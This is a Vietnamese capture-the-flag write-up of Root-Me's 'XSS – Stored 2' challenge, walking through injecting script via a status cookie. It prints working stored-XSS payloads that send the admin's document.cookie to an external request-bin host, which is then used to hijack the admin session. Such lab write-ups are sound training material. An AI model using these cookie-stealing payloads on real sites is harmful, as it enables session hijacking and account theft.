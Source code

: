 # [XSS – Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử fuzz các payload ở tab Admin và Post nhưng không có gì xảy ra. Kiểm tra và test thử thì thấy điều đặc biệt là **Status: invite** ở mỗi post.

<img src="./media/image1.png" style="width:6.5in;height:3.01458in" alt="Graphical user interface, text, website Description automatically generated" />

Check cookie của website thì thấy nó được handle dựa trên cookie này:

<img src="./media/image2.png" style="width:6.5in;height:3.21806in" alt="Graphical user interface Description automatically generated with medium confidence" />

Bỏ vào repeater và check thử thì thấy nó work:

<img src="./media/image3.png" style="width:6.5in;height:3.32153in" alt="Graphical user interface, text, application, email Description automatically generated" />

Ở đây, class **“nh4ttruong”** sẽ là điểm đích ta tấn công. Thử nhét payload XSS vào thử:

**Payload:** `hehe"><script>alert(1)</script>`

<img src="./media/image4.png" style="width:6.5in;height:1.6125in" alt="Graphical user interface, text, application Description automatically generated" />

<img src="./media/image5.png" style="width:6.5in;height:1.97153in" alt="Graphical user interface, application, Teams Description automatically generated" />

Từ đó, ta đã có chỗ để tiêm XSS vào rồi. Tương tự các bài stored, ta tạo request bin và bơm vào:

**Payload:** `"><script>document.write("<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie).concat(%22/>%22))</script>`

Cookie trả về có vẻ vẫn chưa nhận được. Nhưng referer trả về ?admin=1&idx=0. Nói lên rằng nó đã đi đúng hướng và admin đã đọc được:

<img src="./media/image6.png" style="width:6.5in;height:2.94583in" alt="Graphical user interface, text, application Description automatically generated" />

Mở intercept kiểm tra source với payload tương tự thì phát hiện cookie=status=invite;” kết thúc bằng “ ”, do đó, rất có thể nó không link được đến cookie của admin

<img src="./media/image7.png" style="width:6.5in;height:2.06736in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

Để giải quyết điều này, ta thử sử dụng hàm **REPLACE** để xóa bỏ **“ ”** và chèn vào ký tự **“&”** để link các cookie với nhau:

**Payload:** *"><script>document.write("<img src=https://eol9dtzbk9673pb.m.pipedream.net?cookie=%22.concat(document.cookie.replace(%27 %27,%27&%27 ).concat(%22/>%22))</script>*

<img src="./media/image8.png" style="width:6.5in;height:2.50278in" alt="Graphical user interface, text, application Description automatically generated" />

Có **ADMIN\_COOKIE**, ta thay đổi vào cookie và get pass:

<img src="./media/image9.png" style="width:6.5in;height:3.91875in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image10.png" style="width:6.5in;height:3.24167in" alt="A screenshot of a computer Description automatically generated with medium confidence" />

- Flag: "****************************"

